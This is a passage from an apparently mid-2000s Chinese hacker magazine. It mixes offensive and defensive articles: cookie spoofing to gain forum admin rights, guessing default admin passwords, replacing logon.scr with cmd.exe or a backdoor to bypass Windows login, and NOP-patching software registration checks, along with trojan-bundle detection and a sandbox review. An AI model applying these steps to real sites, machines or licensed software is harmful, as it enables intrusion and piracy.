简单地说，就是在你访问某些网站的时候，会在你的计算机上生成保存在“C:\Documents and Settings\DefaultUser\Cookies”“C:\Documents and Settings\Administrator\Cookies”以及“C:\Documents and Settings\用户名\Cookiescookies”目录下的 cookie 文件。当我们再次访问那个网站时，在那个网站用过的用户名等会自动弹出来。这是因为网站把本地计算机上的 cookie 提取出来了。有些网站程序，由于开发者的安全意识不够，把网站权限的一些字段写入 cookie 中，以 cookie 判断管理权限。这样，当我们访问网站的时候，网站以存储在本地上的 cookie 来做身份验证，如果我们把存储在本地上的 cookie 的权限字段修改成具有管理员权限的值的话，我们就可以很轻松地获得管理员权限，任意对网站进行破坏，或者获得 webshell 乃至整个服务器。

（本人已在《黑客手册》发表过两篇关于后台欺骗的文章《COOKIE 欺骗，再战 Jimmy 中文站留言簿忘不掉的伤》和《商贸通 2006 后台验证 COOKIE 欺骗》。我自己认为，我讲得还是比较详细，欢迎大家查阅。

由于前两篇都是后台验证的 cookie 欺骗，我找了另一套程序来做讲解，那就是 Team 论坛。在 2006 年 2 月份左右研究代码时发现的 cookie 欺骗和脚本跨站漏洞，当时的测试版本是 1.0.1 acc，对于官方也做了测试，写稿子时，查了一下百度发现有人也发现这个漏洞（测试版是 1.0.3 的）。

### 测试过程：

首先，打开老兵叔的 MyBrowser，并在 MyBrowser 里打开测试网站，并以“花花”这个账号登录，如图 37。

接下来，单击软件界面上的那个绿色小球按钮（设置自定义的 cookies），当按钮被按下以后，cookies 栏的背景变成白色，说明可以编辑 cookie 信息了，这样我们就可以任意修改 cookie 了。原来 username 是等于 %BB%A8%BB%A8（即花花的 url 编码），我们把 username=%BB%A8%BB%A8 改成 username=admin。然后点一下刷新按钮，再看看网站的信息，是否发生了变化？如图 38。

看到没有，原来的“花花”变成了“admin”。那么，这个 admin 是否具有权限呢？

如果是普通用户，你选择帖子固顶或者添加到精华区，马上就返回参数错误，而我们用 cookie 欺骗过来的 admin 用户所具备的权限，在这里也可以发挥它的管理权，如图 39。

## 五、简单社会工程学

最基本的社会工程学，在每个人心里都有，无非就是猜他人的心理，差不多是心理战了。一些社工（简称）特牛的前辈们，能通过一点点资料就把别人的性格、体貌什么的都猜出来，所以呢，MM 们别放太多资料在 QQ 上哦，不然被猜出你有什么不良嗜好的话……

一般情况下，大家都喜欢简单就好，所以很多时候，QQ、邮箱、游戏账号的密码有的时候设置得一般都比较简单，如 111111、123456 之类的。而且，大部分人 QQ、邮箱、游戏账号等会设置一样的密码。这样简单方便，而且不容易遗忘，或者说是管理员比较懒（我的几个邮箱密码也都是一样的），所以，一旦被别人猜出了你其中的一部分，其他的部分估计也会因资料泄露而——被攻破。

像 QQ 上的资料特别重要，特别容易被利用，一般情况下，如果猜那几个超级简单的密码猜不出的话，就上 QQ 找资料了。比如，你的生日、手机号码、联系电话、你的邮箱名等有可能作为密码的，都会被拿去测试一下，成功机率还不小。

另外有很多程序被架设起来以后，管理员不改密码而用程序初始密码，比如 admin 系列组合等。

为了测试简单社工，当然要找那些新建起来的网站了，因为网站刚架设起来，一般就只是忙着调试，根本不会过多考虑安全性问题。

先找到网站管理员的登录页面，如图 40。

首先就猜测简单密码系列，比如 admin、admin888、123456 等组合，终于猜对了其中一组：admin 和 123456，运气好啊！这样进入后台，接着就可以（如图 41）……

## 六、总结

学习过程中，总要遇到很多问题，多想多问。没人问就找搜索引擎，这就是最好的老师。

有高手愿意指导你，那是最好不过了。如果要收钱的话，那就要多考虑清楚，毕竟我的经历就是“钱”的教训。

建议学一下语言，还要多看黑客类、安全类的杂志，《黑客手册》就是一本不可多得的杂志。

第四句：提前祝大家：新年快乐（中国人不过外国节，圣诞节就免了，大家自己快乐去吧，哈哈……）！

## 七、日记结尾

2006 年 11 月 8 日

忘了什么时候加入 Lenk 大哥的小组了，不过，忘不了 Lenk 大哥和其他组员对我的帮助，在这里特别感谢一下。完稿前总觉得该说点什么……

- 第一句：走自己的路，让别人说去。
- 第二句：学习贵在坚持，切勿半途而废。
- 第三句：《黑客手册》将是你们成长的教室。

## 八、小编后评

偶也跟着花兄的文章小节占个位置，呵呵……任何一位高手都是从菜鸟做起的，吃够了菜就可以尝尝肉味了！真正的高手是不挑食的！先学会爬才学会走，最后再跑，就算是刘翔也不可能一出生就是跨出来的……希望更多不挑食的高手们也写出自己菜鸟时代的激情，成为更多后来者学习的榜样。

现在电脑的不断普及和 ADSL 宽带逐渐成为主流的上网方式，你可以使用的从原来的电话拨号 56K 网速到现在的 ADSL 1MB、小区 LAN 10MB 或者更高。网速快了这个事实让人欣慰，但是你有没有想过互联网的普及即使得你的电脑随时都有可能受到来自网上的各种攻击。本系列将把你带入一个安全网络时代，让你被攻击的可能性降到最低。

## 反黑精英系列

### 之入侵防御（一）

New4 [D.T]

### 从本文中你可以学到：

- 如何识别文件是否捆绑木马
- 如何处理解决捆绑木马文件

## 1、利用捆绑机软件和文件合并软件捆绑木马（出现几率 50%）

在进行这一步之前我们需要了解一下 PE 文件的一些基础知识：（如图 2）

PE 文件（可执行应用程序文件），即应用程序。32 位系统 Windows 图形界面系统，常见后缀名为 .exe；16 位系统，即 DOS 文件系统，常见后缀名为 .com。

## 入侵防御总的说来应该分为 3 大类：

- 防捆绑木马入侵
- 防网页木马入侵
- 防漏洞扫描入侵

## 一、防捆绑木马入侵

现在的牧“马”者是越来越狡猾，他们常用文件捆绑的方法，将木马捆绑到图像、纯文本等常见的文件中，然后通过 QQ、Email 或 MSN 等将这些文件传送给受害者。而一旦不慎打开这些文件，你就“中招”被拖着走了。那对付这些捆绑木马我们平时注意什么呢？

捆绑木马是什么？捆绑就是两个或两个以上的几个文件组合成的一个整体，但只有一个文件真正被我们使用，其他的则是在后台悄悄运行（如图 1）。

例子：

- 捆绑木马的手段归纳起来共有四种：
- 第一种是利用捆绑机软件和文件合并软件捆绑木马；
- 第二种是利用 WINRAR、WINZIP 等软件制作自解压捆绑木马；
- 第三种是利用软件打包软件制作捆绑木马；
- 第四种是利用多媒体影音文件传播；

不过，今天我们这里并不是介绍如何如何捆绑的方法，而是针对这四种捆绑木马给读者讲解如何识破的方法。首先我们来看如何识破第一种方法的诡计。

对于 PE 文件的知识我们要知道这些：在 WINDOWS 32 位下运行先从 DOS MZ header -> PE header -> Section -> Overlay 尾部数据，基本就是这个流程，下面我们开始详细介绍捆绑木马及识破方法。

捆绑模式有两种：一种是在原有的程序文件尾部添加数据，从而达到你运行正常的程序同时运行木马的效果；另外一种是利用捆绑机中自带的一个 PE 头文件来捆绑文件，在你运行这种类型的文件时它会先释放两个文件（一个是正常的被捆绑的文件，而另一个则是木马或者其他附加给你的程序如：IE 插件），后者在运行速度上可能稍慢于前者，利用第二种模式的捆绑木马最为多见。

为了防范这类木马我们制定两种方案：

首先我们利用 PEID 查看是否存在尾部数据，以此来防范利用前种附加数据捆绑木马的方式；再则是用 C32Asm 查看文件头数，以防范利用后种 PE 头捆绑木马的方式。下面我们进入实例来详细操作一下！

先用 PEID 看看有没有尾部数据显示，果然“Microsoft Vi-”

Visual C++ 6.0“Overlay”显示出来了，Overlay 就是尾部数据，见图 3。一般捆绑文件就是在尾部数据 Overlay 里面，而不会放在开头或者区段里（但仅仅通过这个判断是否有捆绑是不行的，需要做下步进行判断）！

再把文件拖到 C32ASM 窗口中，选 16 进制打开文件（如图 4），然后利用 ANSI 码搜索关键字“MZ”（如图 5）。

如果出现多个 DOS MZ Header 且文件部分和图 6 相似，即可判断为该文件有多个 PE 头，也就是存在多个程序（木马或者其他程序）在内部（从这个判断一般都是没错的了，除了少数程序例外）。

## 2、利用 WINRAR、WINZIP 等压缩软件制作自解压捆绑木马（出现几率 30%）

因为 WINRAR 是我们现在最常用的压缩软件，所以我们必须小心点，不然就被图谋不轨的人利用了……别和我说你没有安装 WINRAR 哦！对于 WINRAR 制作的自解压文件我们都可以使用如下方法进行检查。

不要先运行程序，而是先用 PEID 查看是不是（RAR SFX）自解压模块（如图 7）。

发现这点就好办了，用 WINRAR 直接打开这个 EXE 文件，然后查看右边的注释，如图 8。

下面的注释包含自解压脚本命令：

```text
Setup=2.exe
Presetup=1.exe
Silent=1
Overwrite=1
```

一般“Presetup=*.exe”这个为木马文件，而“Setup=*.exe”这个为正常文件，但也可能两个都是木马！最保险还是解压出来用杀毒软件查杀一下，如果两个或者多个都没有被查杀，那很可能这个木马已经被免杀处理了，这个时候最好是去其他地方重新下载一个吧，这样比较好。当然你也可以通过图标来判断（前提你知道你下载的这个文件原始图标应该是哪样的），最后把那个你认为是木马的文件删除即可！

## 3、利用软件打包软件制作捆绑木马（出现几率 10%）

这里所说的软件打包软件也就是我们通常使用的安装程序，大多数情况下以 SETUP.exe 的形式出现。

先用 PEID 查壳（图 9），这类捆绑是很难在不运行安装程序的情况下分离的，要分离的话可能只有反编译安装包了，不过这样做是很危险的，而且很难避免安装程序被破坏。

下面我们就教大家一种最简单的方法来识别这类可能存在问题的安装程序，那就是利用 MD5 值来判断文件是否为正常的安装程序。

要使用 MD5 值来进行判断就必须要有原始参照程序才行，你可以去找一个相同的安装包，注意：软件版本相同或者和安装程序大小相同才行哦！如果该软件有官方网站更应该去官方下载，下载后用 WINMD5 工具对比一下两者的 MD5 值。

选中两个需要对比 MD5 值的文件，用鼠标拖动到程序窗口处就可以进行对比了（如图 10）。

对比后通过看 MD5 值就可以发现两个安装包不一样了，因为世界上几乎没有一个不相同的文件拥有相同的 MD5 值，这就和人的指纹一样具有特殊性，是不能被模仿的，只要改变了文件任何地方，它的 MD5 值也就随之改变了。

## 4、利用多媒体影音文件传播（出现几率 10%）

在网络流行影音共享的今天，就连听音乐和看电影都有可能中木马啊！不过这类木马大部分还是基于 IE 漏洞、系统漏洞或者软件自身的缺陷进行传播，这类木马一般出现在 .wma、.mp3、.rm、.swf 等这些文件格式。制作者先制作 RM 影音木马，然后利用其他格式转换软件，将 RM 格式转换成其他格式的多媒体文件，但仍然保留打开网页连接的特性。而对于 Flash 文件，更是可以设置跳转指令令人很难防御……

对于要彻底防御这类影音木马，我们只有禁止当前所有程序创建新的网络连接，从而完全杜绝这类木马的危害。如果还不能解决这个问题的话可以试试我提供给大家的以下两种方法：

- 第一种：暂时断开网络连接播放整个文件，看看是否存在问题。这种方法适用于短小的音乐文件，但对于比较长时间的影音文件的话，还是推荐关闭网络连接看吧！
- 第二种：使用手动查杀必备的大哥大工具——冰刃（IceSword）来禁止创建新进程，主要是防御浏览多媒体文件时突然弹出的浏览器窗口（如微软的 IE、腾讯的 TT 等）。如图 11。

使用步骤如下：打开冰刃进入主界面→单击“文件”菜单→选择“设置”→勾选“禁止进线程创建”（如图 12），最后再单击“确定”即可。

推荐大家使用第二种方法，这样就可以基本上放心地欣赏影音了，因为大部分通过浏览器起作用的恶意代码都无法调用了。

最后还是来个防捆绑木马入侵小结：工具不是万能的，而人是活的，大家可以利用以上的方法加以结合，即可达到事半功倍的效果。

欢迎大家到非安全论坛 http://www.nohack.cn/ 或者到 [Dark Team] 技术论坛 http://www.darkteam.cn 和我交流，ID：New4，联系我可以 E-mail 到 darkteam3761@gmail.com，另外防网页木马入侵和防漏洞扫描入侵将在以后和大家见面！

（本文所用到的工具：PEiD、C32ASM、WINMD5、IceSword 工具可以在光盘中找到）

> **编辑点评：**
>
> 感谢作者给我们带来的 2007 新年的第一把“火”，各位在“取暖”的时候也要注意安全哦！虽然“窗户漏洞”可以方便大家“换换空气”，但把“骑马的小贼”放进来就危险了。这里小编也透露一手查看 EXE 文件是否捆绑有其他软件的偏方，那就是使用万能提取器——Universal Extractor（本刊上期有文章介绍）提取出 EXE 文件，看看到底都捆绑了些什么东西。（非偷窥，乃明瞧也……）

皇言首语：黑客是喜欢探索软件奥秘的，就是说我们必须不断地尝试新东西。对于未知的事物出现预料不到的情况实属正常，而某些危险软件会对系统造成破坏，这不是我们愿意看到的。也许是个原因吧，虚拟机诞生了，它被亲切地称为“黑客的试验基地”。而除了虚拟机外，一些还原类产品也是许多朋友的选择。今日 OFFICE 要给大家介绍一位安全界新秀，它没有虚拟机繁琐的安装过程，而也不像还原精灵等产品一样简单。它只有 3M 多身材，实属难能可贵！有了它，你可以放心地在 Internet 冲浪，试验各种也许不怀好意的东东，或者随你高兴大肆涂鸦。而只要重启系统，世界就又平静了。揭开这款神秘软件的面纱，就在本期 OFFICE！

## 系统的替身——影子系统

影子

- 从本文中你可以学到：
- 1、保护系统的又一款利器
- 2、除了虚拟机外黑客的又一试验平台

笔者常常测试各种各样的软件，尤其是各种木马程序。要想了解木马程序的控制功能，常常在自己的系统中进行测试，于是引起系统各种各样的问题。现在好了，Windows 系统也有了自己的替身，以后我们就可以让这个替身来完成这些危险的测试，这个系统替身就是——PowerShadow Master（影子系统）。

## 一、软件介绍

影子系统（PowerShadow）是在用户现有的操作系统的基础上构建一个虚拟的镜像，即影子模式（shadow mode）。影子模式和用户现有使用的真实系统完全一样，有着相同架构和功能，用户可随时选择启用或者退出这个虚拟镜像。用户进入影子模式（shadow mode）后，所有操作都是虚拟的，用户可以任意摧毁系统，而不会对现有真正的系统产生影响，一切改变将在退出 Shadow 模式后消失。因此所有的病毒、木马程序、流氓软件都无法侵害真正的操作系统，它们的所有操作都只是“影子”中的假象。

## 二、实际操作

### 1. 程序安装

首先从影子系统的官方网站（http://www.powershadow.com/cn/）进行程序的下载。目前影子系统只有英文版和繁体中文版，不过据官网介绍简体版本近期将会推出，所以我们就通过英文版和汉化补丁的组合来进行安装。首先安装英文版的安装程序，安装完成后程序会提示用户重新启动系统，这里我们选择不重新启动这一项。接着将汉化补丁文件覆盖到目录 C:\WINDOWS\system32\shadow\ 即可。

### 2. 启动方式

由于影子系统在安装的时候修改了系统的 boot.ini 配置文件，所以重新启动系统后，电脑会出现类似安装了双系统一样的多出一个启动项，实现用户在开机时在“正常模式”与“影子模式”之间进行选择。其中选择 PowerShadow Master 的启动项后，就会进入影子模式，如图 1。

小提示：如果用户不想在启动的时候出现这个多系统菜单，可以在进入正常模式后，点击软件界面左面的“启动菜单”标签，选中右面的“显示 PowerShadow 启动菜单”，再点击“确定”按钮就可以了。如果想恢复这个多系统菜单，只要在这里选择“上述二者全部显示”就可以了，如图 2。

如果用户选择进入正常模式的话，也可以双击打开桌面上的“PowerShadow Master”图标来启动软件。接着点击操作界面左面的“常规”标签，如图 3。

从中我们可以看到软件有两种保护模式，即系统盘保护模式和全盘保护模式。在系统盘保护模式下，一切对系统的更改在下次启动后全部无效，对非系统分区的更改是有效的。用户如果想保存数据，可以将数据保存到除系统盘以外的其他盘上；在全盘保护模式下，对电脑中的所有分区进行保护。如果是测试软件，那就选择第二个全盘保护模式，选好后点击“启动”按钮。用户如果想保存数据，必须将数据保存到其他外部设备上，例如 U 盘、MP3、MP4 或移动硬盘。

这时屏幕上会出现短暂的水波纹的现象，稍等一会就进入了全盘保护模式，从桌面上的提示也可以证明这一点。如果想退出这个系统，只要重新启动一下系统。

### 3. 程序测试

现在我们就利用影子系统的影子模式，通过实践来证明一下软件的可靠性。

(1) 修改系统配置

很多用户都喜欢对系统进行一些 DIY 设置，从而让系统使用起来变得更加方便顺手。可是这些操作往往都需要在注册表，或其他系统的危险位置来设置，以至于很多计算机初学者不敢“轻举妄动”。我试着在注册表中对系统的共享进行关闭设置，当我恢复到正常模式后，发现已经“关闭”的共享依然如初。以后就可以利用这个影子系统来模拟系统优化、修改注册表等系统相关的操作，这样就算系统出现崩溃，只要重新启动一下电脑就可以了。

(2) 安装流氓软件

现在网络上的流氓软件泛滥成灾，这里我就利用雅虎助手、搜狗工具条、百度搜霸等软件来进一步对影子系统进行测试。当我们在影子模式下安装了这些流氓软件后，如图 4。

从图中我们可以看到 IE 浏览器已经变得“满目疮痍”，当我们回到实际的操作系统中时，IE 浏览器又“焕然一新”了。

(3) 木马程序测试

病毒、木马是现在危害用户的主要因素之一，所以为了验证影子系统的安全性，我这里使用灰鸽子木马来进行测试。在影子系统中运行灰鸽子的服务端程序，通过 IceSword 检测到灰鸽子的存在，如图 5。当我返回正常状态后发现灰鸽子已经消失得无影无踪了。

(4) 进行“裸奔”上网

“裸奔”上网是广大网友的一大梦想，但是网络中充斥的病毒、后门、流氓软件、黑客等却让他们不得不安装上杀毒软件和防火墙，因为这样才能保证个人隐私的安全、系统稳定地运行。笔者通过半天使用影子系统进行“裸奔”上网，结果发现返回正常状态，原系统依旧完好。

通过上面这些测试，我发现影子系统的安全性确实相当强。任何想要损害系统安全的，唯一的办法就是让系统从影子模式返回到启动模式才行，因为在应用层上任何程序都无法对影子模式保护的文件进行攻击。

## 三、影子系统的优势

在没有出现影子系统以前，用户在测试软件、分析病毒等时候，也有很多不同的选择，比如 GHOST、虚拟机、还原精灵等。其实影子系统的作用和这些软件一样，都是为了让用户在长时间里正常地使用操作系统，避免系统错误而造成重装系统以及安装软件等麻烦。但是影子系统与 GHOST、虚拟机等相比又有什么优势呢？

GHOST 的出现让用户快速还原操作系统成为现实，GHOST 程序的文件虽然比较小，但是其生成的系统镜像文件却非常大，而且还原的时候也比较麻烦，会对指定的磁盘数据进行全部的重写，覆盖磁盘原有的全部文件内容。这样的一番操作以后，虽然系统得到了快速的还原，但是系统设置、安装软件等一系列麻烦事还在后面。

如果觉得 GHOST 还原也非常麻烦的话，那么虚拟机也是一个不错的虚拟环境，它可以在本地磁盘上创建与真实的计算机几乎一模一样的系统，不但虚拟自己的 CPU、内存、硬盘、光驱，甚至还有自己的 BIOS。但是虚拟机的创建需要占用大量硬盘空间，并且在运行的时候也会占用大量的系统资源。

而影子系统既不会占用大量的磁盘空间和系统资源，也不会给用户造成系统设置、安装软件等麻烦，更关键的是任何人都可以在程序安装好以后立即进行使用。所以对于一般的家用用户和入门级用户来说，影子系统还是有很大优势的。

## 四、影子系统的不足

凡事都是相对的，虽然影子系统在某些方面相比 GHOST、虚拟机等有很大的优势，但是并非表示影子系统就是“全能冠军”。而且 GHOST、虚拟机等在某些方面的强大功能，也显示出影子系统的不足。

前面我们已经说过了，影子系统是在用户现有的操作系统的基础上构建一个虚拟的影像，只有在一个稳固的系统上构建起的影子系统，才能稳定地运行。换句话说如果原有的系统已经濒临“崩溃”的话，那么构建的影子系统也是非常脆弱的。要想获得一个全新稳定的系统，只有 GHOST 才能帮我们办到，影子系统是无法做到的。

对于虚拟机来说，影子系统也不是十全十美的。首先如果用户的硬件配置够强的话，虚拟机可以虚拟出多个不同的操作系统，比如 Windows、Linux 等；其次使用虚拟机可以在本地当前的系统和虚拟的系统之间来回切换；还有使用虚拟机可以和本地的系统构建一个虚拟的网络。

除了以上这些不足之处以外，影子系统还有一些不顺手的地方。比如进入影子系统后，任何东西都不能进行保存，刚刚下载的程序、处理过的文档等都将不复存在。而且影子系统不能进行延续，重启后，刚才设置的内容以及使用过的数据都不复存在，又将出现一个全新的“影子”，这可真的是半途而废“废”啊。

## 五、小结

通过对影子系统的测试与对比，我觉得影子系统的优势还是在于本地使用者，比如那些软件爱好者、程序测试员，以及普通的个人用户等，对于其他的一些专业用户可能就显得不够用。所以说软件也是具有两面性，关键其功能与用户的需求是否对应，借用一句广告词——只选对的，不选贵的。

> [文章中涉及到的工具 PowerShadow 在光盘中有收录]

> **编辑点评**：
>
> 小编接到这个软件后，首先被它漂亮的界面所吸引，第一感觉不错！安装完后系统提示要重启，就有一点小小的不爽了，捎带一丝担心。不过启动后一切疑虑都烟消云散了，PowerShadow 运行很稳定，操作非常流畅，使用也非常简便。于是小编终于发现除了吃内存的 VMWARE 外更好的试验平台。如果做试验的话小编建议使用系统盘保护模式，这样试验后的某些结果信息我们可以保存到非系统盘；而如果想裸奔的话，呵呵~当然还是都保护起来比较好一些哈！

## “破”了你，系统密码

Icyleaf

- **从本文中你可以学到：**
- 1、忘记系统密码的简单解决方法
- 2、使用工具解决忘记系统密码的问题

前一段时间，“黑手”论坛不断出现关于“如何破解系统的用户登录密码”的问题帖子，大家提供的方法也不少，各有优缺点，当然我也找到了更好更简单实用的方法。但……我还是啰嗦下，把各种可行的方法回顾回顾。

### 1、最简单技术法

如果忘记了用户的登录密码，可以通过删除 `%systemroot%\system32\config`（小编：`%systemroot%` 为系统默认环境变量，指系统盘下的 Windows 目录）下的 `SAM` 文件，再重新启动后此用户就清除了密码。

**缺点**：仅有效于 Windows 2000 系统，在 Windows XP 系统下如果也用上述操作会出现“安全账户初始化失败”而导致系统无法使用。

### 2、技术法

首先给 `%systemroot%\system32` 文件夹中的 `cmd.exe` 和 `logon.scr`（这是 XP 系统安装完成后默认的屏保文件，如果你更换了屏保，抱歉，这个方法也没法用了）备份并更名 `cmd.exe` 为 `logon.scr`，然后重新启动计算机，在进入登录界面时不要动鼠标和键盘 10 分钟（又是默认的，如更改则以更改后的为准）后就会弹出 `cmd` 窗口，然后利用后门等工具提升权限或建立一个管理员权限的用户；或者是给 `%systemroot%\system32` 文件夹中的 `cmd.exe`、`logon.scr` 和 `spoolsv.exe` 备份，更名 `cmd.exe` 为 `logon.scr`，利用后门软件生成服务端改名 `spoolsv.exe`。再找一台机器实现联机连接后门，或者一个 shell，再建立一个管理员权限的用户。利用新用户进入后再更改忘记密码的用户，由于建立的用户拥有管理员权限，所以不需要输入旧密码。

**缺点**：太费时间和精力。

### 3、工具法

这种方式用得最多，如深山红叶修改制作的 WinPE LiveCD 系统中的更改 Administrator 用户密码功能。还有一种是以前在书上看到的利用 DreamPackPL 软件。它可以在不知道用户密码的情况下绕过系统的身份认证，并可以用拥有最高权限的用户进行操作。对于系统在 FAT32 分区可以直接破解，而 NTFS 则需要刻盘，还要用到系统安装盘。

**缺点**：需要刻盘，并且现在大多都使用 NTFS 分区，无论是深山红叶还是 DreamPackPL，体积都很大。

下面我隆重推荐一款 DOS 下清除系统密码工具 `Active@ Password Changer`。这个软件不但功能强大，而且核心文件的体积才 69.8K，安装版的 1.44M，一点也不占空间。由于它的这些优点，这款软件分 DEMO 版和 Pro 版——本想破解它，可惜专业版的下载方式是在线付费后才能下载。它的官网 `www.password-changer.com`，有兴趣的朋友可以上去瞧瞧。下载的话就选安装版（Install Version）。目前最新版的是 v3.0 build 0323，以前版本就一个核心文件。通过升级，在安装版里包含了制造启动盘功能，这也省了我们再去下载制造启动盘的软件了。

- **软件介绍：**
- 语言：英文
- 适用环境：Windows NT/2000/XP/2003 系统
- FAT16/FAT32/NTFS 分区
- 运行环境：任何版本的 DOS 系统（如 MS-DOS、PC-DOS、DR-DOS、FreeDOS、OpenDOS 等）

**核心功能：**

1. 查看本地 SAM 数据库
2. 修改用户属性，DEMO 版可用②、③、⑤，还有无法使用重新设置密码功能：
   - ① 用户下次登录必须修改密码（User must change password next logon）
   - ② 密码永不过期（Password never expires）
   - ③ 修改用户已停用为开启（Account is disabled）
   - ④ 修改用户已锁定为解除（Account is locked out）
   - ⑤ 清空用户的密码（Clear User's password）

附带：制作启动盘软件（可以是软盘、U 盘）、核心的 ISO 文件、帮助文档。

不用多说了，先安装程序。在选择可选文件时，建议全选，PDF 的帮助文件很详细，很不错的哦~默认安装完成后运行的是启动盘制作软件。这里按各自喜欢的方式选择吧。不要告诉我你看不懂这些英文 ^_^ 启动盘制作软件只能制作出来软盘版和 U 盘版，CD 版的需要那个 ISO 文件，只能利用其他的刻录软件进行刻录。建议用 U 盘，制作完后核心文件的名字为 `PWD_CHNG.exe`。

**功能演示**

利用启动 U 盘进入到 DOS 下运行 `PWD_CHNG.exe`，如图 1。

在弹出的窗口输入 1，按回车进入电脑硬盘分区表窗口，如图 2。

我用的是学校的机器，共两个磁盘，第一个是 WIN98，第二个是 WIN2000，输入 2 继续回车，这时又出现提示，在这个窗口可以看到已检测到了 `MSSAM Database` 文件，如图 3。

继续回车，显示系统建立的用户，在 Your choice:[ ] 输入你要修改的用户前面的数字后按回车，出现用户修改窗口。提示前面的软件介绍，我有说明，使用默认选择，按“Y”回车，稍等会儿就提示成功！如图 4。

如果是专业版则提示“Would you like to Reset this User's password ? (Y/N) [N]:[ ]”。这就是 DEMO 版的所有功能。另外为了减轻使用者负担，我做了一个汉化安装版，核心文件未汉化，因为纯 DOS 是不支持中文的，所以只好放弃。

> [文章中涉及到的工具 Active@ Password Changer 在光盘中有收录]

> **编辑点评**：
>
> 忘记系统密码是件让人很抑郁的事情，比被别人偷看更让人难受。破解系统密码的方法在《黑手》上可谓五花八门，但绝大多数都受到操作系统的版本限制。Active@ Password Changer 可以在 DOS 下运行，这样就可以完全跳过操作系统的限制了。不过它也有局限性，那就是对于某些 SCSI 或 SATA 的硬盘支持不怎么好。毕竟纯 DOS 嘛，有些东东不支持那是不可抗拒的。

盗得你的密码更郁闷，小编曾有这样的经历：最普遍的解决方法就是要删除 SAM 文件，而这个方法的确存在很多问题，是大家十分无奈时的下策了。这款软件，界面清晰，操作简单，相信新手朋友也能轻松解决烦恼了吧！

## 破资源

### Win32 汇编教程

Windows 环境下 32 位汇编语言是一种全新的编程语言。它使用与 C++ 语言相同的 API 接口，不仅可以用来开发出大型的软件，而且是了解操作系统运行细节的最佳方式。本书作者罗云彬，本书是作者多年来编程工作的总结，适合于欲通过 Win32 汇编语言编写 Windows 程序的读者。[光盘中有提供]

## 破技巧

### SoftICE 常用命令（3）

在破解中能熟练地利用命令，可以提高破解效率，让你在使用 SoftICE 的时候更加得心应手。

- M 传送数据
- MACRO 定义一个宏命令，使之执行一系列 SoftICE 指令
- MAP32 显示当前所有 32 位模块的内存映像（图）
- MAPV86 显示当前虚拟机系统的 DOS 内存映像
- MOD 显示 Windows 模块列表
- O 向 I/O 端口输出数据
- P 单步执行程序
- PAGE 显示页表信息
- PAUSE 满屏后是否暂停显示
- PCI 显示系统中每个 PCI 设备的情况
- PEEK 从物理内存中读取数据
- PHYS 显示某个物理地址对应的所有虚拟地址
- POKE 向物理内存写数据
- Print Screen 键打印屏幕内容
- PROC 显示系统中所有进程的简要信息
- QUERY 显示某个进程的虚拟地址映像
- R 显示或更改寄存器的内容
- RS 暂时恢复程序屏幕
- SERIAL 将控制台转移到串口终端上
- SET 显示或更改 SoftICE 的内部参数
- SHOW 列出回溯跟踪历史缓冲区中的指令
- SRC 在源程序、反汇编代码、两者混合之间切换显示
- SS 在源程序文件中查找字符串
- STACK 显示某个调用栈
- SYM 显示或设置符号
- SYMLOC 重定位符号基址
- T 单步跟踪
- TABLE 改变或显示当前符号表
- TABS 显示或修改在显示源文件时 TAB 键的宽度
- TASK 显示 Windows 任务列表
- THREAD 显示线程信息
- TRACE 进入或退出跟踪模式
- TSS 显示任务状态段和 I/O 端口的挂接
- TYPES 列出当前内存区域（context）中的类型名

> 破言破语：连续几天风飘雨被风飘雪搞得好郁闷，因为有读者提出上期风飘雪的文章《密码学算法之 RSA》在其他杂志上曾发表过。经小编查证，确实存在此事，经过了解，那是由于风飘雪曾经收到了那家杂志的退稿信，而且后来他也并不知道文章已经被刊登了。但无论怎样，错误已经铸成，风飘雪将被扣除当月稿费。在此，小编风飘雨和风飘雪一道向广大读者道歉。不管如何，我们希望以后这样的失误尽量避免发生。道歉完毕，还是请朋友们来欣赏本期为大家准备的破解盛宴吧！

## 破解黑客字典 II

小智[B.X]

### 从本文中你可以学到：

- 一、爆破的原理
- 二、爆破黑客字典 II

看了上期 Hacksign 的《黑客字典 II 算法分析》一文，觉得写得很不错，也很容易实现。不过对于大多数菜鸟来说，可能更喜欢爆破，因为爆破来得更爽快。

经常提到算法分析和爆破，算法分析就是去分析程序的注册流程，从而逆向推算出注册码，这需要懂汇编知识，并且也需要耐心和运气。爆破就是通过修改程序中的部分代码来实现程序的注册，或者是破解程序的其他限制。下面是爆破经常用到的几条重要代码。

```
- JMP 无条件跳转；机器码为 EB
- NOP 空操作；机器码为 90
- JZ 等于 0 就跳，否则为 JNZ
- JE 相等就跳，否则为 JNE
- JG / JA 大于就跳，否则为 JNG / JNA
```

基本上常用的就是这些。下面我们来看看，如何爆破黑客字典 II。

为了保险，先查一查这程序有没有加壳，PEiD 显示没有加壳。下面我们打开程序，点击注册按钮，在里面输入用户名，我是这里输入的，账号：xiaozi，密码是：78787878，点击注册，结果显示错误。如图 1。

确定之后，我们将它用 OD 载入，载入后右击选“超级字符串参考”，之后选“查找 UNICODE”，如图 2。

在字符串参考中，找到“注册号或注册码不正确”这一句，双击来到代码处，下面是重要的代码，如图 3。

看到没有，00401DE5 这行就是错误提示，它是从上面 00401D00 处跳过来的，解释这里都有，相信大家也知道该如何爆破了，我们就把 JNZ 这句 NOP 掉就可以了。这里就不操作，下面我们来看看，爆破的结果如何，这里我们随便输入账号和密码都可以，注意账号和密码不能为空，不然程序没有反应。这里我们输入账号：123456，密码也为：123456，结果如图 4，看看吧。

好了，就到这儿吧，有问题来论坛交流，也可以给我发 E-Mail：fooltchappy@163.com

> **编辑点评：**
> 读者可以把本文与 2006 年 10 月《黑客字典》“算法分析”对比阅读，爆破和算法分析各自的优势就体现出来了。同一个软件，是采用爆破还是分析算法，这主要取决于你的目的了。

### 从本文中你可以学到：

- 一、什么是 Keyfile 验证
- 二、Keyfile 的破解

### Keyfile 类型的特点

Key File，一般指注册文件，有时候也被称为文件锁，是一种利用文件来注册软件的保护方式。Key File 一般是一个小文件，其格式则由作者自己定义，可以是纯文本文件，也可以是包含不可显示字符的二进制文件，其内容是一些加密过或未加密的数据，其中可能有用户名、注册码等信息。该文件一般是放在软件的安装目录中或系统目录下。软件每次启动时，从该文件中读取数据，然后利用算法（一般为作者自设计的算法，又或者在此基础上加入密码学算法）进行处理，根据处理的结果判断是否为正确的注册文件，如果正确则以注册版模式来运行。

### 分析过程

这里以一个 Crackme 作为实例来分析，程序采用汇编语言编写，同时检测得出没有经过密码学算法的处理，所以这里省去不少麻烦。运行程序，找不到任何的注册框，再看看作者的留言：

